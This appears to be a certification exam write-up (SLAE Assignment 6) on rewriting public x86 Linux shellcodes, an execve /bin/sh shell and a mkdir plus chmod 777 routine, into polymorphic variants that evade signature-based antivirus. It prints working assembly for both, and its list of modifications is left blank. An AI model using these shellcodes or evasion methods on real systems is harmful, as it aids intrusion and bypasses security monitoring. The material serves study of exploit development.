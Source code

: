 ## SLAE Exam Assignment 6 - Creating polymorphic shellcode

## Prologue
The second last assignment of the SLAE certification exam was quite an intriguing one. We were told to take three shellcodes of our choosing from [shell-storm](https://www.shell-storm.org/shellcode/) or [exploit-db](https://www.exploit-db.com/shellcodes) and create Polymorphic versions of those to evade _static signature-based_ AV/EDRs. Needless to say, it was a quite fun and brain-racking challenge.

What's more? We were told that extra brownie-points would be given if the polymorphic shellcodes were smaller than the original.

So without any further ado, let's get down with it!

## What is polymorphic shellcode?
It is impossible to explain polymorphic shellcode if we don't understand what is polymorphism.

Polymorphism comes from the Greek words: _poly_ meaning "many" and _morph_ meaning "forms". In other words it roughly translates to "many forms" of the same thing.

Now let's understand what we mean by polymorphic shellcode with the help of a tiny example.

Each shellcode is crafted for a specific purpose right? Say there's a Reverse TCP shellcode which connects back to an attacker server for execution of arbritary commands. This shellcode was used many times in the past by an attacker along with an exploit to get access to a remote machine and exfiltrate data. Now the AV/EDR vendors have caught up to it and they have written signatures to detect this payload. Say a wannabe pen-tester get their hands on this payload and they too want to use this payload so they quickly decide to test this payload in a live-environment of their own before deploying it but alas! As soon as they fire up the payload, it gets detected by a commercial AV. This can't be any good!

Enter polymorphic shellcode!

So this script-kiddie gives this assembly code that he found to an 1337 hacker and he in return gives him back a modified payload which surprisingly runs as expected without any detections much to this script-kiddie's surprise. So what did this 1337 hacker do?

He basically modified the source that he received to beat _static signature analysis_. In other words, he created a polymorphic shellcode from the original source that has the same functionality but a different signature this time since he addded some new instructions, deleted some old instructions, added some NOP instructions yada yada yada.

Now that we know what is polymorphic shellcode and how it is useful for us, let's get our hands dirty with creating some!

## First polymorphic shellcode - execve(/bin/sh)
[Here](http://shell-storm.org/shellcode/files/shellcode-827.php) is the link to the original shellcode.

Original shellcode:

```nasm
xor    eax, eax
push   eax
push   0x68732f2f
push   0x6e69622f
mov    ebx, esp
push   eax
push   ebx
mov    ecx, esp
mov    al, 0x0b
int    0x80
```

Polymorphic shellcode:

```nasm
xor eax, eax           ; Clearing out EAX register
xor ecx, ecx           ; Clearing out ECX regsiter
push eax               ; push for NULL termination
push dword 0x68732f2f  ; push //sh
push dword 0x6e69622f  ; push /bin
mov ebx, esp           ; store address of TOS - /bin//sh
mov al, 0x0b           ; store Syscall number for execve() = 11 OR 0x0b in AL
int 0x80               ; Execute the system call
```

Length of original shellcode: `23 bytes`

Length of polymorphic shellcode: `21 bytes`

Size Reduction: `9%`

For the first assignment I took a very simple shellcode which executes /bin/sh so I will not go into too much detail on how it works. I just bastardized the execve call and made the following modifications:

1. 
1.
1.

Let's see a demo of the shellcode in action now:

<script id="asciicast-WGxT2keT6AO81KpWMraSVUt4n" src="https://asciinema.org/a/WGxT2keT6AO81KpWMraSVUt4n.js" async></script>

## Second polymorphic shellcode - create dir + chmod 777 + exit
[Here](https://www.exploit-db.com/exploits/37358) is the link to the original shellcode.

Original shellcode:

```nasm
xor    eax, eax
push   eax
push   0x4b434148  #You can change it !
mov    al, 0x27
mov    ebx, esp
inc    cx
int    0x80
mov    al, 0xf
mov    cx, 0x1ff
int    0x80
xor    eax, eax
inc    eax
int    0x80
```

Polymorphic shellcode:

```nasm
xor eax, eax                             ; Clearing out EAX register
push eax                                 ; PUSH for NULL termination
push dword 0x4b434148                    ; PUSH dir name HACK
mov al, 0x27                             ; Load 0x27 syscall val for mkdir in AL 
mov ebx, esp                             ; Store address of TOS in EBX
int 0x80                                 ; Executing mkdir syscall
mov al, 0xf                              ; Load 0x0f syscall val for chmod in AL
mov cx, 0x1ff                            ; Load permission to CX
int 0x80                                 ; Executing chmod syscall
inc eax                                  ; Incrementing val of EAX to 1 - exit
int 0x80                                 ; Executing exit syscall
```

Length of original shellcode: `29 bytes`

Length of polymorphic shellcode: `25 bytes`

Size Reduction: `14%`



